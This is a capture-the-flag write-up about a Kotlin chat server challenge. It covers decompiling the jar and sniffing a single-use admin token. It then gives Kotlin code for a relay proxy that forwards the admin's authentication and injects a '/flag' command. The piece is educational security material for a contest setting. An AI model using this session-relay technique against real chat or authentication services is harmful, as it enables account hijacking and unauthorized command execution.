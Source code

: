 # Introduction
On the webpage for the chat client you are greeted with a public chat server, two download links and a server tester. If
you try to connect to the server you will get a random generated name and will be able to use the chat. If you also try
to use the self-test while logged in you will see that the admin user logs in and then disconnects.

If you download the server/client you will see that its an jar file, and by opening it in a archivemanager/unzipping it
you will see that its an kotlin project.

Since this is a kotlin/jvm application I will decompile the jar-file using IntelliJs built in decompiler.

## Looking for clues in the source-code
First I look for the main function, if you look in the manifest you will find that the main-class is 
`no.tghack.server.ServerKt`. By decompiling that file to Java you will find that it opens a `ServerSocket` and that for
each connection it accepts it will create a `ConnectionHandler`. Each connection handler are then initialized with a
`PacketListener` called `AuthenticationListener`.

Looking at `AuthenticationListener` you will see that it has the possibility of taking three different packets,
`Handshake`, `Disconnect` and`Authentication`. Looking at the `Authentication` packet you will see that it takes a 
userId and a UUID which probably would mean it doesn't handle tokens properly. You will also see it call the method
`validateAuthentication(Authenticate authentication, Continuation var2)`. Looking at the content you will see that it
does a POST request to `<severUrl>/authentication` with the userId and token as parameter.

## Getting a token
By inspecting the protocol using wireshark or using MITMproxy you should be able to extract the token. By trying it
against the authentication endpoint you should figure out that the token can only be used once.

We now know that we get an admin token we can then try to automate an attack. The simplest way to do so would be to
just redirect all TCP traffic from your own server socket and send it to the sample server. When the authentication have
finished you should be able to execute the /flag command using the chat packet and get a chat packet in return
containing the flag.

Since the server includes all the network code unobfuscated it should be pretty simple to implement an exploit using the
jar-file:
```kotlin
import no.tghack.network.*
import no.tghack.network.protocol.*
import java.net.ServerSocket
import java.net.Socket

fun main() {
    val serverSocket = ServerSocket(1338)

    val inHandler = ConnectionHandler(serverSocket.accept())
    val outHandler = ConnectionHandler(Socket("localhost", 1337))
    inHandler.packetListener = RedirectListener(outHandler)
    outHandler.packetListener = RedirectListener(inHandler)

    Thread(inHandler).start()
    Thread(outHandler).start()
}

class RedirectListener(private val to: ConnectionHandler) : PacketListener {
    override fun handle(keepAlive: KeepAlive) {
        to.send(keepAlive)
    }
    override fun handle(chat: Chat) {
        to.send(chat)
        println(chat.message)
    }
    override fun handle(disconnect: Disconnect) {
        to.send(disconnect)
    }
    override fun handle(authenticate: Authenticate) {
        to.send(authenticate)
        to.send(Chat("/flag"))
    }
    override fun handle(handshake: Handshake) {
        to.send(handshake)
    }
    override fun alive(): Boolean = true
    override fun onFreeTime() {}
}
```

This should yield the result
```
The flag is TG21{...}
```